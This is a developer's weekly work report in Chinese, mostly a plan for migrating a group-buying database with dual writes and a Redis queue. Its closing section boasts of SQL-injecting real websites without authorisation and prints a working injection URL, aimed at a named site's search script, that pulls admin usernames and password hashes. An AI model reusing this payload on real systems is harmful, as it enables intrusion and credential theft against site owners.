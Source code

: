 2014-09-13 周报
---
###本周完成的事情
1. 修复几个bug.
2. 梳理团购代码.
3. 团购部份文档化

###下周要做的
1. 团购代码的重构
2. 迁库

###团购重构发布计划
团购部份有三大块,一是面向用户的展示,其次是面向商家的报名,还有管理员的审批.

三者均涉及Tbao主表,则按业务进行分批次迁移感觉不太好操作.

目前的计划是,先在线下进行开发,然后等基本测试通过之后开始进行替换操作.

先上全部model层代码.

(之前没进行过数据库迁移工作)考虑到会对110万数据进行过滤,咨询过非鱼,店铺池子中30万数据会跑8小时,可能这一步会用java多线程或者多php crond进行加速.

除Tbao外,其他的数据库表数量不大(千级别及以下),可以在短时间内完成迁移(因为表为商家和管理员修改的表,所以频率不高,有几张表数据是不会变动的).先迁移除Tbao之外的其它表.

完成model层上线和其余表迁移之后,先上线审批模块,此时,依旧会同时写旧库和新库.当新库确认无异常之后.会上线商家报名模块,也是同时写新库和旧库.

此时,除Tbao之外,所有表完成了迁移和同步.用一种异步更新的方式,即,在Tbao原有model上,添加一个mq(redis)写操作,将用户的修改数据(即tuanitemid,和最新的修改值(key - value))加入mq,同时写
入原有表.等待Tbao数据迁移之后.于此同时写一个程序开始同步进行更新新Tbao中的数据.在php代码中加上一个判断,当数据库迁移完成(修改redis中的某一个值)且操作消息队列为空时,全部切换到新库.
自此完成全部迁移.

面临的风险,如过用户操作频率高于同步频率,则会造成队列中的消息越来越多.
解决的办法,可以增加线程活着crond任务来进行缓解.不过也有一个数据的极限.超过极限,则该方案不可行.

如过迁移Tbao时间短(2小时之内),是否可以在凌晨开始,将数据库迁掉,然后所有的操作写文件(数据量不大),然后再同步数据库.完成迁移.

此时,为了保证对上的透明,所有代码的改动在原有的model层上进行改动,此时对上的controller和view不需要进行改动.

当数据库迁移之后,上层的改动就会相对简单很多.

重构的工作重点就在于删除废弃代码,整理原有代码.之后,可以开始走正常的发布,先上新审核后台,然后再上新的报名代码.

###其它的
周三听了止介大神的web 安全分享,自己去试了下..还真的注了几个网站,拿到了管理员账号和密码(md5加密后的).最后卡在了md5的解密上.

截图如下:
![第一个猎物](images/2014-09-13-1.png)

利用的注入语句如下:

```
http://www.imaoshan.com/cms/plus/search.php?keyword=helloworld&typeArr[
111%3D@%60\%27%60%29+and+%28SELECT+1+FROM+%28select+count%28*%29,
concat%28floor%28rand%280%29*2%29,%28substring%28%28select+CONCAT%280x7c,
userid,0x7c,pwd%29+from+%60%23@__admin%60+limit+0,
1%29,1,62%29%29%29a+from+information_schema.tables+group+by+a%29b%29%23@%60\%27%60+]=a
```
